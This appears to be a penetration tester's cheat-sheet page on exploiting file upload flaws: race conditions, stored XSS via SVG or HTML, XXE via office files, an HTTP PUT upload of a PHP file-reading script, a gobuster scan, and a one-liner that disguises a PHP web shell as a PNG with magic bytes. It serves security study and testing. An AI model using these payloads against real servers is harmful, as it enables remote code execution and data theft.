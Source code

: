 # Race Conditions
Good -> upload file first to a sandboxed folder, process it and if safe, move it to real folder w/ random filename
Implementing your own processing of file uploads independently of any framework is dangerous.
Some webs upload file to the main filesystem then remove if unsafe -> those ms are enough for execution
Very subtle vuln, difficult to detect on blackbox pentest unless you leak or have source code available.
# Race conditions in URL-based file uploads
PHP uniqid() can potentially be brute-forced.
Upload a large file. If processes by chunks, maybe malicious file at the start followed by large padding bytes.

# WITHOUT REMOTE CODE EXECUTION
# Uploading malicious client-side scripts
you may still be able to upload scripts for client-side attacks
Example: HTML files or SVG images with &#x3C;script> tags to create stored XSS payloads
If uploaded file appears on a page visited by other users, their browser will execute the script when it tries to render the page.
NOTE: due to SOP restrictions, attack only works if uploaded file is served from same origin to which you upload it
# Exploiting vulnerabilities in the parsing of uploaded files
Example: if server parses XML-based files, such as .doc,.xls, it is a potencial vector for XXE injection attacks. 


# Uploading files using PUT
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

&#x3C;?php echo file_get_contents('/path/to/file'); ?>
# NOTE: send OPTIONS requests to different endpoints to test for any that advertise support for the PUT method. 
</code></pre>

## General Methodology

{% tabs %}
{% tab title="Tips" %}
{% code overflow="wrap" %}
```bash
# Gobuster: VERY IMPORTANT TO USE -f to append / to each request
gobuster dir -f -t 100 -u $URL -w $DICT -x php,txt,html
#-------------------------
# Magic numbers
#-------------------------
# Use the Wikipedia list and VERY IMPORTANT check the filetype with file after it, if it does not work then try other magic numbers.
# EXAMPLE FOR PNG:
echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>' > shell.php.png 
```